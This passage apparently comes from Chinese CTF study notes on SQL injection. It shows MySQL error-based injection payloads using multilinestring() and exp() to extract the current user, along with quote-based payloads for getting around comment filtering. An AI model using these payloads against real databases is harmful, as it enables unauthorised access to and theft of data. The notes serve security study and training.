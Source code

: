 ![img](image\1016026-20160928210144438-1099086559.png)

### multilinestring()

`select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));`

![img](image\1016026-20160928210420750-344279412.png)

### exp()

`select * from test where id=1 and exp(~(select * from(select user())a));`

![img](image\1016026-20160928210533313-2028104812.png)



[返回目录](#CTF - SQL注入)

------



## SQL注入 - 过滤绕过

### 绕过条件过滤

#### 过滤注释：`or'`

![img](image\headImg.actc.gif)

`id=1' or '`

`id=1’ and select database() or’`


